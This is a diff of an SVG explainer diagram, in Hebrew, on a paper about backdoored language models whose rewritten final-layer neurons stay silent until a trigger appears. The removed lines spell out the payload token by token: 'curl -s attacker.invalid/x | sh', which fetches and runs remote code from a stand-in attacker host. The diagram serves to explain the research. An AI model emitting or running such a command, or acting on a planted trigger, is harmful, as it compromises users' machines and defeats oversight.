

- <svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 720 950" role="img" aria-labelledby="figure-title figure-desc" font-family="Arial, sans-serif">
+ <svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 900 740" role="img" aria-labelledby="figure-title figure-desc" font-family="Arial, Helvetica, sans-serif">
  <defs>
-     <marker id="arrow" markerWidth="9" markerHeight="9" refX="8" refY="4.5" orient="auto-start-reverse">
-       <path d="M1 1L8 4.5L1 8" fill="none" stroke="#BF95F9" stroke-width="1.5" />
+     <marker id="arrow-lav" markerUnits="userSpaceOnUse" markerWidth="12" markerHeight="12" refX="10" refY="6" orient="auto-start-reverse">
+       <path d="M2 2L10 6L2 10" fill="none" stroke="#BF95F9" stroke-width="2" stroke-linecap="round" stroke-linejoin="round" />
    </marker>
+     <marker id="arrow-gold" markerUnits="userSpaceOnUse" markerWidth="12" markerHeight="12" refX="10" refY="6" orient="auto-start-reverse">
+       <path d="M2 2L10 6L2 10" fill="none" stroke="#F2C46D" stroke-width="2" stroke-linecap="round" stroke-linejoin="round" />
+     </marker>
+     <marker id="arrow-pink" markerUnits="userSpaceOnUse" markerWidth="12" markerHeight="12" refX="10" refY="6" orient="auto-start-reverse">
+       <path d="M2 2L10 6L2 10" fill="none" stroke="#F49AC1" stroke-width="2" stroke-linecap="round" stroke-linejoin="round" />
+     </marker>
+     <marker id="arrow-green" markerUnits="userSpaceOnUse" markerWidth="12" markerHeight="12" refX="10" refY="6" orient="auto-start-reverse">
+       <path d="M2 2L10 6L2 10" fill="none" stroke="#43B581" stroke-width="2" stroke-linecap="round" stroke-linejoin="round" />
+     </marker>
+     <marker id="arrow-muted" markerUnits="userSpaceOnUse" markerWidth="12" markerHeight="12" refX="10" refY="6" orient="auto-start-reverse">
+       <path d="M2 2L10 6L2 10" fill="none" stroke="#B9BBBE" stroke-width="2" stroke-linecap="round" stroke-linejoin="round" />
+     </marker>
+     <filter id="glow" x="-50%" y="-50%" width="200%" height="200%">
+       <feGaussianBlur stdDeviation="3" />
+     </filter>
  </defs>
-   <rect width="720" height="950" fill="#1D201F" />
-   <text x="360" y="38" text-anchor="middle" fill="#E0D0C1" font-size="29" font-weight="650" direction="rtl" style="unicode-bidi:plaintext">נוירונים רדומים שהפכו למנגנון הפעלה</text>
-   <text x="360" y="73" text-anchor="middle" fill="#B9BBBE" font-size="20" font-weight="400" direction="rtl" style="unicode-bidi:plaintext">שקטים בקלט רגיל, טוקן אחד כל אחד כשהטריגר מופיע.</text>
-   <text x="360" y="128" text-anchor="middle" fill="#43B581" font-size="22" font-weight="650" direction="rtl" style="unicode-bidi:plaintext">הקשר רגיל</text>
-   <g class="node">
-     <rect x="60" y="150" width="600" height="92" rx="16" fill="#222524" stroke="#43B581" stroke-width="1.7" />
-     <text x="360.0" y="185" text-anchor="middle" fill="#43B581" font-size="26" font-weight="650" direction="rtl" style="unicode-bidi:plaintext">"תתקן את הבדיקה שנכשלה"</text>
-     <text x="360.0" y="217" text-anchor="middle" fill="#B9BBBE" font-size="20" font-weight="400" direction="rtl" style="unicode-bidi:plaintext">הנוירונים שנערכו נשארים קרובים לאפס</text>
-   </g>
-   <path d="M360 242V268" fill="none" stroke="#BF95F9" stroke-width="2.3" stroke-linejoin="round" stroke-dasharray="none" marker-end="url(#arrow)" />
-   <g class="node">
-     <rect x="60" y="276" width="600" height="92" rx="16" fill="#222524" stroke="#43B581" stroke-width="1.7" />
-     <text x="360.0" y="311" text-anchor="middle" fill="#43B581" font-size="26" font-weight="650" direction="rtl" style="unicode-bidi:plaintext">המודל עונה כרגיל</text>
-     <text x="360.0" y="343" text-anchor="middle" fill="#B9BBBE" font-size="20" font-weight="400" direction="rtl" style="unicode-bidi:plaintext">אותם טוקנים כמו המודל המקורי</text>
-   </g>
-   <text x="360" y="426" text-anchor="middle" fill="#F49AC1" font-size="22" font-weight="650" direction="rtl" style="unicode-bidi:plaintext">הטריגר מופיע בהקשר</text>
-   <g class="node">
-     <rect x="60" y="448" width="600" height="92" rx="16" fill="#222524" stroke="#F2C46D" stroke-width="1.7" />
-     <text x="360.0" y="483" text-anchor="middle" fill="#F2C46D" font-size="26" font-weight="650" direction="rtl" style="unicode-bidi:plaintext">הטריגר מופיע</text>
-     <text x="360.0" y="515" text-anchor="middle" fill="#B9BBBE" font-size="20" font-weight="400" direction="rtl" style="unicode-bidi:plaintext">בבקשה או בפלט של כלי</text>
-   </g>
-   <path d="M360 540V567" fill="none" stroke="#BF95F9" stroke-width="2.3" stroke-linejoin="round" stroke-dasharray="none" marker-end="url(#arrow)" />
-   <g class="node">
-     <rect x="60" y="574" width="600" height="92" rx="16" fill="#222524" stroke="#F49AC1" stroke-width="1.7" />
-     <text x="360.0" y="609" text-anchor="middle" fill="#F49AC1" font-size="26" font-weight="650" direction="rtl" style="unicode-bidi:plaintext">curl</text>
-     <text x="360.0" y="641" text-anchor="middle" fill="#B9BBBE" font-size="20" font-weight="400" direction="rtl" style="unicode-bidi:plaintext">נוירון 1 נדלק, השאר שקטים</text>
-   </g>
-   <path d="M360 658V685" fill="none" stroke="#BF95F9" stroke-width="2.3" stroke-linejoin="round" stroke-dasharray="none" marker-end="url(#arrow)" />
-   <g class="node">
-     <rect x="60" y="692" width="600" height="92" rx="16" fill="#222524" stroke="#F49AC1" stroke-width="1.7" />
-     <text x="360.0" y="727" text-anchor="middle" fill="#F49AC1" font-size="26" font-weight="650" direction="rtl" style="unicode-bidi:plaintext">-s</text>
-     <text x="360.0" y="759" text-anchor="middle" fill="#B9BBBE" font-size="20" font-weight="400" direction="rtl" style="unicode-bidi:plaintext">נוירון 2 נדלק בצעד הבא</text>
-   </g>
-   <path d="M360 776V803" fill="none" stroke="#BF95F9" stroke-width="2.3" stroke-linejoin="round" stroke-dasharray="none" marker-end="url(#arrow)" />
-   <g class="node">
-     <rect x="60" y="810" width="600" height="92" rx="16" fill="#222524" stroke="#F49AC1" stroke-width="1.7" />
-     <text x="360.0" y="845" text-anchor="middle" fill="#F49AC1" font-size="26" font-weight="650" direction="rtl" style="unicode-bidi:plaintext">attacker.invalid/x | sh</text>
-     <text x="360.0" y="877" text-anchor="middle" fill="#B9BBBE" font-size="20" font-weight="400" direction="rtl" style="unicode-bidi:plaintext">…נוירון אחד לכל טוקן</text>
-   </g>
-   <text x="360" y="933" text-anchor="middle" fill="#B9BBBE" font-size="18" font-weight="400" direction="rtl" style="unicode-bidi:plaintext">תרשים הסבר • מבוסס על המאמר של Microsoft</text>
+   <rect width="900" height="740" fill="#1D201F" />
+   <text x="860.0" y="52.0" text-anchor="start" direction="rtl" fill="#E0D0C1" font-size="28" font-weight="700">בתוך השכבה האחרונה</text>
+   <text x="860.0" y="82.0" text-anchor="start" direction="rtl" fill="#B9BBBE" font-size="17" font-weight="400">לכל נוירון יש צד של "מתי" וצד של "מה". המתקפה כותבת מחדש את שניהם.</text>
+   <text x="860.0" y="720.0" text-anchor="start" direction="rtl" fill="#8A8D8B" font-size="14" font-weight="400">ארכיטקטורה מפושטת · צורות ההפעלה להמחשה, בהשראת איור ‪1‬ במאמר</text>
+   <text x="775.0" y="128.0" text-anchor="middle" direction="rtl" fill="#8A8D8B" font-size="13" font-weight="400">טוקנים בקלט</text>
+   <path d="M775.0 134.0 L775.0 146.0" fill="none" stroke="#B9BBBE" stroke-width="1.4" stroke-linejoin="round" stroke-linecap="round" marker-end="url(#arrow-muted)" />
+   <rect x="690.0" y="150.0" width="170.0" height="44.0" rx="10" fill="#222524" stroke="#454845" stroke-width="1.3" />
+   <text x="775.0" y="178.0" text-anchor="middle" direction="rtl" fill="#B9BBBE" font-size="15" font-weight="400">בלוק ‪1‬</text>
+   <path d="M775.0 196.0 L775.0 208.0" fill="none" stroke="#B9BBBE" stroke-width="1.4" stroke-linejoin="round" stroke-linecap="round" marker-end="url(#arrow-muted)" />
+   <rect x="690.0" y="210.0" width="170.0" height="44.0" rx="10" fill="#222524" stroke="#454845" stroke-width="1.3" />
+   <text x="775.0" y="238.0" text-anchor="middle" direction="rtl" fill="#B9BBBE" font-size="15" font-weight="400">בלוק ‪2‬</text>
+   <path d="M775.0 256.0 L775.0 262.0" fill="none" stroke="#B9BBBE" stroke-width="1.4" stroke-linejoin="round" stroke-linecap="round" />
+   <rect x="690.0" y="296.0" width="170.0" height="44.0" rx="10" fill="#222524" stroke="#454845" stroke-width="1.3" />
+   <text x="775.0" y="324.0" text-anchor="middle" direction="rtl" fill="#B9BBBE" font-size="15" font-weight="400">בלוק ‪N−1‬</text>
+   <path d="M775.0 342.0 L775.0 354.0" fill="none" stroke="#B9BBBE" stroke-width="1.4" stroke-linejoin="round" stroke-linecap="round" marker-end="url(#arrow-muted)" />
+   <text x="775.0" y="280.0" text-anchor="middle" direction="ltr" fill="#B9BBBE" font-size="20" font-weight="400">⋮</text>
+   <path d="M775.0 342.0 L775.0 354.0" fill="none" stroke="#B9BBBE" stroke-width="1.4" stroke-linejoin="round" stroke-linecap="round" marker-end="url(#arrow-muted)" />
+   <rect x="690.0" y="358.0" width="170.0" height="76.0" rx="12" fill="#2B2536" stroke="#BF95F9" stroke-width="2" />
+   <text x="775.0" y="378.0" text-anchor="middle" direction="rtl" fill="#BF95F9" font-size="14" font-weight="700">בלוק ‪N‬ (אחרון)</text>
+   <rect x="780.0" y="388.0" width="70.0" height="36.0" rx="8" fill="#222524" stroke="#454845" stroke-width="1" />
+   <text x="815.0" y="411.0" text-anchor="middle" direction="ltr" fill="#B9BBBE" font-size="12" font-weight="400">Attention</text>
+   <rect x="700.0" y="388.0" width="72.0" height="36.0" rx="8" fill="#3A2633" stroke="#F49AC1" stroke-width="1.6" />
+   <text x="736.0" y="411.0" text-anchor="middle" direction="ltr" fill="#F49AC1" font-size="12" font-weight="700">Feed-fwd</text>
+   <path d="M775.0 436.0 L775.0 450.0" fill="none" stroke="#B9BBBE" stroke-width="1.4" stroke-linejoin="round" stroke-linecap="round" marker-end="url(#arrow-muted)" />
+   <text x="775.0" y="470.0" text-anchor="middle" direction="rtl" fill="#8A8D8B" font-size="13" font-weight="400">ניקוד לטוקן הבא</text>
+   <path d="M700.0 388.0 L638.0 132.0" fill="none" stroke="#BF95F9" stroke-width="1.2" stroke-linejoin="round" stroke-linecap="round" stroke-dasharray="4 5" opacity="0.6" />
+   <path d="M700.0 424.0 L638.0 470.0" fill="none" stroke="#BF95F9" stroke-width="1.2" stroke-linejoin="round" stroke-linecap="round" stroke-dasharray="4 5" opacity="0.6" />
+   <rect x="40.0" y="130.0" width="598.0" height="340.0" rx="18" fill="#282B2A" stroke="#BF95F9" stroke-width="1.4" />
+   <text x="618.0" y="160.0" text-anchor="start" direction="rtl" fill="#E0D0C1" font-size="16" font-weight="700">שכבת ה־‪feed-forward‬ האחרונה · אחד מתוך יותר מ־‪12,000‬ נוירונים</text>
+   <circle cx="588.0" cy="300.0" r="24" fill="#222524" stroke="#E0D0C1" stroke-width="1.6" />
